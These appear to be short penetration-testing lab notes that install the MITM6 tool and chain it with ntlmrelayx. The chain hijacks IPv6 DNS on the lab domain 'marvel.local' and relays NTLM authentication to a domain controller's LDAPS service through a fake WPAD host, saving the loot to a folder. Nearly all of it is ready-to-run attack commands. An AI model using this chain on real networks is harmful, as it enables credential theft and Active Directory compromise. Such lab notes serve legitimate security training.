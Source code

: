 #MITM6
## Install MITM6
git clone from github.io
```
cd /opt/
git clone https://github.com/dirkjanm/mitm6.git
```
```
cd mitm6/
pip install -r requirements.txt
```
```
pip2 install .
```

## Start MITM6 and setup a relay attack
```
cd mitm6
python2 mitm6.py -d marvel.local
```
on another terminal
replace ip for domain controler ip
```
ntlmrelayx.py -6 -t ldaps:192.168.22.137 -wh fakewpad.marvel.local -l lootme
```
